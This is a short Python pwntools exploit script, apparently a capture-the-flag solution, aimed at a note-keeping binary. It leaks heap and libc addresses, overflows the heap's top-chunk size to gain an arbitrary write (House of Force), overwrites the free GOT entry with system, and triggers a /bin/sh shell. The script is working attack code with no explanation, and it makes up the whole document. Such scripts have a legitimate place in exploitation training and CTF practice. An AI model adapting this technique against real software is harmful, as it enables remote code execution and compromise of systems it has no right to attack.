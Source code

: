 ```python
add_note(0x18, "name", "\x00")

del_note(1)
del_note(0)

add_note(0x18, 'A', '\x00')

heap_addr = u64(('\x00' + list_note(0)[1][1:])[:8].ljust(8, '\x00'))
print "heap base addr:", hex(heap_addr)

###########################################

bin_sh_addr = heap_addr + 0x30
add_note(0x18, p64(0)+p64(0)+p64(bin_sh_addr), 'content')

fake_pinfo = p64(elf.got['free']) + p64(0) + p64(elf.got['free'])
edit_note(1, fake_pinfo + '\xff' * 0x8)      # overflow the next size, top

#change the av->top
old_top = heap_addr + 0x130
notes_arr = 0x6020e0
nb = notes_arr - 16 - old_top

print "nb:", (nb)

add_note(nb, 'name', '')    #note2->content points to note_arr

edit_note(2, p64(heap_addr + 0x0f0)+p64(heap_addr+0xd0)) #edit the note_arr actually

#leak libc
result = list_note(0)
free_in_libc = u64(result[1][:8].ljust(8, '\x00'))
libc.address = free_in_libc - libc.symbols['free']
print "libc base addr:", hex(libc.address)

edit_note(0, p64(libc.symbols['system']))
#edit_note(2, p64(libc.search("/bin/sh").next()))

del_note(1)
p.interactive()
```



